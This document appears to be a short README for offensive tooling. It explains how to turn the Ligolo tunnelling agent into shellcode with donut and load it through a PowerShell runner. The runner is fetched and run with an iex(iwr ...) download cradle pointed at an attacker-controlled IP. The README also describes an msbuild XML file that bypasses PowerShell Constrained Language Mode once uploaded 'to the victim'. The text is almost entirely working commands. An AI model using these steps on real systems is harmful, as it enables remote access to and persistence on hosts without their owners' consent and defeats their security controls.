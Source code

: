 ## Powershell Shellcode Runner 
Make sure to convert agent.exe of ligolo to shellcode:
- `donut -f 1 -o agent.bin -a 2 -p "-connect your-server:11601 -ignore-cert" -i agent.exe`

Make sure you are running as x64 bit process before running: Powershell:
- `[Environment]::Is64BitProcess`

CMD: 
- `set p` (Should show `PROCESSOR_ARCHITECTURE=AMD64`)

Invoke it: 
- `iex(iwr http://192.168.45.173:443/ligolo.ps1 -UseBasicParsing)`

*NOTE: make sure both ligolo.ps1 and agent.bin in the same directory, then serve them by simply using python server*.

## CLM Bypass

`ligolo-clmbypass.xml` can be used to load Ligolo agent with bypassing Constrained Language Mode.

- Make sure to prepare ligolo `agent.bin` file and serve it using python server.

Upload to the victim and run (Make sure to change to your IP Address in the file):

- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe ligolo-clmbypass.xml`
